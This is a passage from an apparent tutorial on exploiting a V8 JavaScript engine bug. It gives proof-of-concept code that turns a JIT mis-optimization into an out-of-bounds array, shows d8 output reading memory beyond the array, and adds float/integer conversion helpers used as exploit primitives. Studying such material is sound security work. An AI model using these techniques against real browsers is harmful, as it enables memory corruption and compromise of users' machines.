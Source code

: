 The first access (`oob[0]`) worked, because the array is allocated with a capacity of 1 (refer to the previous section for details). Why does the next one (`oob[1]`) crash? A hint is the mention of  `HOLEY_SMI_ELEMENTS` in the stack trace, which is the internal type of the array. Arrays in javascript don't have types, but v8 has several internal representations it uses for optimization purposes. Array's can be `PACKED` or `HOLEY` (missing elements), and made up of `SMI`, `DOUBLE`, or any elements. We'll learn more about SMI's in the next section, but it suffices for now to understand that the memory past the end of the array isn't in the format v8 is expecting to see for an array of this type.

In order to get around this, we'll coerce the type of the array to be `HOLEY_DOUBLE_ELEMENTS`, which represents values in memory as IEEE doubles. This is easy enough, all we need to do is set an element of the array to a float.

```js
function poc(needle) {
    let i = "abcdef".indexOf(needle);
    i = (i >> 0x1d) * 2 + 1;
    let a = new Array(i);
    a[0] = 0.1;
    return a;
}

// ...
```

Running this with `--shell` to to allow us to keep entering javascript after the script runs:

```
$  ./v8-binary/d8 --shell poc.js
Before optimization: 1
After optimization: -1
V8 version 9.1.269.36
d8> oob[0]
0.1
d8> oob[1]
4.763796150676378e-270
d8> oob[100]
2.1160022451239437e+36
d8>
```

Boom! We now have access to data outside the bounds of our array. The reason the numbers look so strange is because we're interpreting arbitrary memory as an IEEE double precision floating point number. Let's introduce some helper functions to convert between the floating point and integer representation of the data

```js
/// Helper functions to convert between float and integer primitives
var buf = new ArrayBuffer(8); // 8 byte array buffer
var f64_buf = new Float64Array(buf);
var u64_buf = new Uint32Array(buf);

function ftoi(val) { // typeof(val) = float
    f64_buf[0] = val;
    return BigInt(u64_buf[0]) + (BigInt(u64_buf[1]) << 32n); // Watch for little endianness
}

function itof(val) { // typeof(val) = BigInt
    u64_buf[0] = Number(val & 0xffffffffn);
    u64_buf[1] = Number(val >> 32n);
    return f64_buf[0];
}

// ... Rest of poc.js
```
Sample usage:
```js
d8> ftoi(4.768128617178215e-270).toString(16)
```